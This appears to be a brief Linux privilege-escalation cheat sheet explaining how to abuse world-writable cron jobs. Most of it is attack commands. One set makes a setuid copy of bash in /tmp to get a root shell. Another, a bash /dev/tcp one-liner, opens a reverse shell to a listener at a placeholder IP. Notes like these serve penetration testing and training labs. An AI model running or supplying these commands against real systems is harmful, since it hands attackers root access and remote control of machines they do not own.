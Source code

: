 # Step one is to check if crontabs are exploitable
    cat /etc/crontab

# If a cronjob is globally writeable you can edit the script to run malicious code. For example:
    spawn a root shell:
        cp /bin/bash /tmp/rootbash
        chmod +xs /tmp/rootbash

        move into /tmp/ and run rootbash
    run a reverse shell that connects to a local machine:
        bash -i >& /dev/tcp/<local_ip>/1337 0>&1

        run netcat listener on local machine and wait for cronjob to run

